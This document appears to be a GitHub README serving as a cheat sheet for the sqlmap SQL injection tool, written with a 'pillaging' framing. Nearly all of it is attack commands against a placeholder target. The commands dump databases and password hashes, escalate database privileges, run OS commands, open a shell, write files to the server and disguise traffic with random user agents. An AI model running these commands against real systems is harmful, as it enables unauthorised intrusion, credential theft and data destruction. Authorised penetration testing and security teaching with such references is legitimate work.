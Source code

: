# SQLMap-Cheat-Sheet

Target the http://target.com URL using the “-u” flag: <br>
sqlmap -u 'http://target.com'<br>
Specify POST requests by specifying the “–data” flag: <br>
sqlmap -u 'http://target.com' --data='param1=blah&param2=blah'<br><br>
Target a vulnerable parameter in an authenticated session by specifying cookies using the “–cookie” flag: <br>
sqlmap -u 'http://target.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'<br>
Drop all Set-Cookie requests from the target web server using the “–drop-set-cookie” flag: <br>
sqlmap -u 'http://target.com' -r req.txt --drop-set-cookie<br>
Perform in-depth and risky attacks using the “–level” and “–risk” flags: <br>
sqlmap -u 'http://target.com' --data='param1=blah' --level=5 --risk=3<br>
Specify which POST or GET parameter to target using the “-p” flag: <br>
sqlmap -u 'http://target.com' --data='param1=blah&param2=blah' -p param1<br>
Choose a random User-Agent request header using the “–random-agent” flag: <br>
sqlmap -u 'http://target.com' -r req.txt --random-agent<br>
Target a certain database service using the “–dbms” flag: <br>
sqlmap -u 'http://target.com' -r req.txt --dbms Oracle<br>
Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords: <br>
sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords<br>
Attempt privilege escalation on the target database<br>
sqlmap -r ./req.txt --level=1 --risk=3 --privesc<br>
Run the “whoami” command on the target server.<br>
sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami<br>
Dump everything in the database, but wait one second in-between requests.<br>
sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1<br>
Here are some useful options for your pillaging pleasure: <br>
-r req.txt Specify a request stored in a text file, great for saved requests from BurpSuite.<br>
–force-ssl Force SQLmap to use SSL or TLS for its requests.<br>
–level=1 only test against the specified parameter, ignore all others.<br>
–risk=3 Run all exploit attempts, even the dangerous ones (could damage database).<br>
–delay Set a delay in-between requests, great for throttled connections.<br>
–proxy Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.<br>
–privesc Attempt to elevate the privileges of the database service account.<br>
–all Enumerate everything inside the target database.<br>
–hostname Print the target database’s hostname.<br>
–passwords Find and exfiltrate all users and their password hashes or digests.<br>
–dbs Enumerate all databases accessible via the target webserver.<br>
–comments Enumerate all found comments inside the database.<br>
–sql-shell Return a SQL prompt for interaction.<br>
–os-cmd Attempt to execute a system command.<br>
–os-shell Attempt to return a command prompt or terminal for interaction.<br>
–reg-read Read the specified Windows registry key value.<br>
–file-write Specify a local file to be written to the target server.<br>
–file-dest Specify the remote destination to write a file to.<br>
–technique Specify a letter or letters of BEUSTQ to control the exploit attempts: <br>
    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries
